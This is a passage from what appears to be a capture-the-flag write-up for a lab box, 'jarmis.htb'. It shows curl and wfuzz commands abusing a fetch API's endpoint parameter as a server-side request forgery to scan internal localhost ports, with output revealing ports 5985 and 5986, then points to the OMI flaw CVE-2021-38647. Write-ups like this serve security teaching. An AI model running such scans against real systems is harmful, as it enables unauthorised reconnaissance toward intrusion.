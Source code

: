 
It seems like for some reason the site sets `endpoint` field if the port is
open but not if it’s closed. I got a little bit lucky here because the site
only works this way if I scan localhost, not 127.0.0.1:

    
    
    oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://127.0.0.1:81
    {"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"127.0.0.1:81","note":"127.0.0.1"}
    

A good reminder to try both of them just in case when fuzzing things. I’ll
look at why in Beyond Root.

I’ll try fuzzing with localhost, using `--hs '"endpoint":"null"'` to hide
results containing that string:

    
    
    oxdf@parrot$ wfuzz -z range,1-65535 --hs '"endpoint":"null"' -u http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ
    
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ
    Total requests: 65535
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000000022:   200        0 L      1 W        117 Ch      "22"
    000000080:   200        0 L      1 W        117 Ch      "80"
    000005986:   200        0 L      1 W        119 Ch      "5986"
    000008001:   200        0 L      1 W        119 Ch      "8001"
    000005985:   200        0 L      1 W        119 Ch      "5985"
    000038332:   200        0 L      1 W        120 Ch      "38332"
    000046012:   200        0 L      1 W        120 Ch      "46012"
    
    Total time: 636.1354
    Processed Requests: 65535
    Filtered Requests: 65528
    Requests/sec.: 103.0205
    

Sometimes when I ran this brute I would get some stray 502 errors back from
the server. These are not positive hits, and I could include `--hc 502` to
clear those as well.

I knew about 22 and 80 already. The two high ports could be interesting, but
I’m immediately interested in 5985 and 5986. These are typically the WinRM
ports on Windows. On Linux, they happen to be used by Open Management
Interface, or OMI, which is the software exploitable by
[CVE-2021-38647](https://www.tenable.com/blog/cve-2021-38647-omigod-critical-
flaw-leaves-azure-linux-vms-vulnerable-to-remote-code-execution), or OMIGod.

